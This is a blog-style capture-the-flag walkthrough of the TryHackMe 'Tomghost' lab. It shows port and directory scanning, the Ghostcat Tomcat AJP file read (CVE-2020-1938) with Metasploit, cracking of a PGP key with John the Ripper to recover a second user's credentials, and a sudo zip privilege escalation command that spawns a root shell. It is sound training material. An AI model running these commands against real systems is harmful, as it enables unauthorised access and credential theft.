 ```yaml
---
layout: post
permalink: /posts/thm/tomghost
title: "Tomghost"
---
```


Identify recent vulnerabilities to try exploit the system or read files that you should not have access to. </br>

Let's scan the target machine for open ports with nmap

```
nmap -sC -sV <IP>
```

![nmap](/assets/images/thm/tomghost/nmap.png)

There are open ports 22, 53 8009 and 8080. Go and visit the website.

![website](/assets/images/thm/tomghost/website.png)

It's Apache Tomcat. I tried to scan for any hidden directories with gobuster

```
gobuster dir -u http://10.10.59.117:8080/ -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

![gobuster](/assets/images/thm/tomghost/gobuster.png)

Unfortunately I didn't find anything useful. I wasn't sure what is the service running on port 8009. So I just googled `Apache Jserv` and found an exploit for it `CVE-2020-1938` `https://www.exploit-db.com/exploits/49039`. I learnt that using metasploit we'll be able to read files deplyed on Tomcat. Start Metasploit and execute `search ajp` 

![ms-search](/assets/images/thm/tomghost/ms-search.png)

We are going to use the auxiliary module.

![ms-options](/assets/images/thm/tomghost/ms-options.png)

Looking for the options we see that we need to provide the target machine IP.

```
set RHOSTS <IP>
```

Now just execute the `run` command.

![ms-result](/assets/images/thm/tomghost/ms-result.png)

We found credentials. Let's try to ssh with them.

```
ssh skyfuck@<IP>
```

![skyfuck-ls](/assets/images/thm/tomghost/skyfuck-ls.png)

There are two files and I wasn't sure what can I do with them so I just look for the first flag.

```
find / -name user.txt
```

![find](/assets/images/thm/tomghost/find.png)

Well, we have found the flag and also we found that there is another user `merlin`. I tried to check whether our current user has any root permisson to execute commands `sudo -l` but unfortunately skyfuck he has no any rights to execte commands as root.

![skyfuck-sudo](/assets/images/thm/tomghost/skyfuck-sudo.png)

So I decided to go back to the files we had found in skyfuck directory. I researched for what is pgp, it stands out for Pretty Good Privacy and it is used to encypt files. After some additional research we found that we can brute force the key `tryhackme.asc`  but first we have to convert it to hash and John the Ripper has the perfect script for that purpose `gpg2john`. We can use SSH to download the files.

```
scp skyfuck@<IP>:credential.pgp .
scp skyfuck@<IP>:tryhackme.asc .
```

The dot in the end means the current directory. Now let's convert the key

```
gpg2john tryhackme.asc > hash.txt
```

![hash](/assets/images/thm/tomghost/hash.png)

We have the hash, let's crack it.

```
john hash.txt --wordlist=rockyou.txt
```

![john](/assets/images/thm/tomghost/john.png)

Now we need to import the key and decrypt the pgp file

```
gpg --import tryhackme.asc
gpg --decrypt credential.pgp > cred.txt
```

![merlin-creds](/assets/images/thm/tomghost/merlin-creds.png)

Now we have merlin credentials. Go back to te target machine and switch the user `su merlin`. Let's see whether merlin has any right to execute commands as root

```
sudo -l
```

![sudo-l](/assets/images/thm/tomghost/sudo-l.png)

We are in luck. Visit `https://gtfobins.github.io/gtfobins/zip/` and see how we can escalate our priviliges using `zip` command

![gtfo](/assets/images/thm/tomghost/gtfo.png)

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
```

![root](/assets/images/thm/tomghost/root.png)

Yey... we were able to get root access.